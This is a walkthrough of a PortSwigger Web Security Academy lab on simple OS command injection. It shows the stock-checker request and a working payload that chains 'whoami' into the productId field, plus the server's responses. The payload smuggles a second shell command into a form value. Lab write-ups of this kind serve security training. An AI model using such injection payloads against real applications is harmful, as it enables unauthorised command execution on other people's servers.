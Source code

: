 # [Lab 1: OS command injection, simple case](https://portswigger.net/web-security/os-command-injection/lab-simple)

---

## Description

This lab contains an [OS command injection](https://portswigger.net/web-security/os-command-injection) vulnerability in the product stock checker.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

To solve the lab, execute the `whoami` command to determine the name of the current user.

---

## Solution

The description states that the application executes a shell command containing user-supplied product and store IDs. Find the section of the application that performs this functionality.

Selecting the `Hitch A Lift` product and then scrolling to the bottom of its product page, there is a form consisting of a dropdown input with the options  `London`, `Paris`, and `Milan` and a button that reads `Check Stock`.

![](images/Pasted%20image%2020210819171355.png)

Clicking the button with the `London` option set returns the value `62 units`.

![](images/Pasted%20image%2020210819171538.png)

The dropdown input corresopnds to the store ID and the current product corresponds to the product ID. This is the vulnerable functionality described in the challenge description.

The underlying HTML is a form with parameters `productId` and `storeId`. When the form is submitted, the following JavaScript function is called with `method` set to `POST`, `path` set to `/product/stock`, and `data` as the `productId` and `storeId` values.

```javascript
function checkStock(method, path, data) {
    const retry = (tries) => tries == 0
        ? null
        : fetch(
            path,
            {
                method,
                headers: { 'Content-Type': window.contentType },
                body: payload(data)
            }
          )
            .then(res => res.status == 200
                ? res.text().then(t => t + " units")
                : "Could not fetch stock levels!"
            )
            .then(res => document.getElementById("stockCheckResult").innerHTML = res)
            .catch(e => retry(tries - 1));

    retry(3);
}
```

The sends an AJAX request like the following to the server.

```http
POST /product/stock HTTP/1.1
Host: ac931f8f1ffb665f806b737600fe0030.web-security-academy.net
Cookie: session=FHgOtgEDglQe8kiX6LYzsuVbgHSvBrSh
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ac931f8f1ffb665f806b737600fe0030.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Origin: https://ac931f8f1ffb665f806b737600fe0030.web-security-academy.net
Content-Length: 21
Dnt: 1
Sec-Gpc: 1
Te: trailers
Connection: close

productId=1&storeId=1
```

The `session` cookie is unnecessary and only retained for consistency. The response is just the number of items, which is rendered on the screen via the `checkStock()` function above.

```txt
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Set-Cookie: session=4ZOrUaJbPtz4yzQJYjnYUSShi0uojzdj; Secure; HttpOnly; SameSite=None
Connection: close
Content-Length: 3

82
```

The challenge description makes it clear that these two values are passed to a shell command whose output is returned. Perhaps the shell command looks something like the following:

```bash
checkStock.py $productId $storeId
```

Attempt to break out of this command by setting `productId` to `1 1;whoami;#`, causing the command `checkStock.py 1 1;whoami;# 1` to execute. The rseponse should return the output from both commands: `62` and the current username.

```http
POST /product/stock HTTP/1.1
Host: ac931f8f1ffb665f806b737600fe0030.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ac931f8f1ffb665f806b737600fe0030.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Origin: https://ac931f8f1ffb665f806b737600fe0030.web-security-academy.net
Content-Length: 38
Dnt: 1
Sec-Gpc: 1
Te: trailers
Connection: close

productId=1+1%3bwhoami%3b%23&storeId=1
```

```txt
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Set-Cookie: session=vW3gIcIETvTkZKnqAb8FBpQoe9wTA3LH; Secure; HttpOnly; SameSite=None
Connection: close
Content-Length: 16

62
peter-dWQn8L
```

Success. The name of the current user is `peter-dWQn8L`.
